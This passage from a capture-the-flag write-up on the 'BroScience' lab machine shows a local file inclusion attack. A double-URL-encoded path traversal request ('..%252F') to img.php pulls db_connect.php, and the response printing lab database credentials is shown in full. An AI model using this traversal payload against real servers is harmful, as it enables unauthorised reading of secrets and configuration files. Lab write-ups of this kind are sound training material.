 ```
GET /includes/img.php?path=..%252Fimages%252Fbench.png HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=7tgk1lrrj4m6p5218rvb9i0t69
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

As mentioned, our `gobuster` output shows `/includes` , which contains:

![](./assets/2023-01-28-19-55-05-image.png)

`db_connect.php` sounds interesting.. can we do a LFI (Local File Inclusion) and fetch it with `GET /includes/img.php?path=..%252Fincludes%252Fdb_connect.php HTTP/1.1` ?  Yep!:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 08:59:25 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 337
Connection: close
Content-Type: image/png

<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```
